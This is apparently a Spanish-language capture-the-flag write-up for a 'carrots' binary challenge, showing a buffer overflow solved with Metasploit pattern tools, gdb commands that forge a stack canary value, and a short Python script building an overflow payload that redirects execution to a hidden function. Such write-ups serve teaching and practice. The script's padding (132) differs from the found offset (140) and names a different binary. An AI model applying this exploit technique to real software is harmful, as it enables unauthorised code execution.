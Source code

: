 ## **Enunciado**

Points: 300   
Country: Mexico   
Attatchment: https://mega.nz/#!twM1nYCA!qXDWql7ER6gLYj6eaT7iG-12sFdH3ozePk0VDl_xLwk   
Description: We all know that rabbits' favorite food is carrots. Help the rabbits to eat their favorite food today and be careful with the birds...good luck!   

## **Solución**

Se trata del clásico buffer overflow que peta cuando le metes más caracteres de los debidos:

```
./carrots 

        .--``..---.                
         .````--:ohdmNms/`         
          -:/+++/-.:smNd+          
       ```..--:ohmNNdhh.           
     `-. `.``.-+sosshd.         :. 
   -os--/sosdmmNNMMNy         .+// 
  :h+.+hNNMMMNNNMMNm/      `/yNN.` 
 .do/oNNMMMMMmohs+:`    .+hNMMMM-` 
 `yohNhNNNMh-           dosNMMMmo- 
  -mN+hMMMy             .smNMNdd/+`
   yN.hMMh               +NMMNmhds:
   +N//m+                 .osshyho 
  ..smhh                           
   ::oNmy-                         
      .//yhs/:`                    
          :ymNN/                   
         .-+shdho.                 
             `.--..` '''   

 Where is my carrot?
 > AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaaaa
Segmentation fault
```

Vamos a crear un patrón de caracteres para averiguar el offset con metasploit:

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 150
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
```

Lo metemos en gdb y nos da una dirección que se corresponde con una parte del patrón anteior. Esta dirección se la pasamos a metaspoit otra vez y nos da el offset:

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 150 -q 0x37654136
[*] Exact match at offset 140
```
```
objdump -x carrots | grep CARR
08049570 g     F .text	0000021a              _Z6CARROTv
```
```
br *0x804981c

set {int}0xbffff334=0x42495244
set {int}0xbffff338=0x00000000
set {int}0xbffff33c=0x08049570
evitar canary
```

```python
#!/usr/bin/python
# Fichero pwn_please_no.py 
# Exploit ROP


from struct import pack

binary = "please-no"
junk = "A" * 132

rop = pack('<I', 0x42495244)   
rop += pack('<I', 0x00000000)    
rop += pack('<I', 0x08049570)   


payload = junk + rop 
print payload
```

